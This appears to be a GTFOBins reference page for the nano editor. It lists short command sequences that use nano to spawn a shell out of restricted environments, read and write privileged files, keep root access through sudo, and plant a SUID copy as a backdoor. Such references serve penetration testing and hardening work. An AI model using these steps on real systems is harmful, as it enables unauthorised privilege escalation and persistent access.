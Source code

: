 # GTFOBin: nano

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
nano
^R^X
reset; sh 1>&0 2>&0
```

The `SPELL` environment variable can be used in place of the `-s` option if the command line cannot be changed.

```
nano -s /bin/sh
/bin/sh
^T
```

## File write

It writes data to files, it may be used to do privileged writes or write files outside a restricted file system.

```
nano file_to_write
DATA
^O
```

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
nano file_to_read
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo nano
^R^X
reset; sh 1>&0 2>&0
```

## Limited SUID

If the binary has the SUID bit set, it may be abused to access the file system, escalate or maintain access with elevated privileges working as a SUID backdoor. If it is used to run commands (e.g., via `system()`-like invocations) it only works on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

The `SPELL` environment variable can be used in place of the `-s` option if the command line cannot be changed.

```
sudo install -m =xs $(which nano) .

./nano -s /bin/sh
/bin/sh
^T
```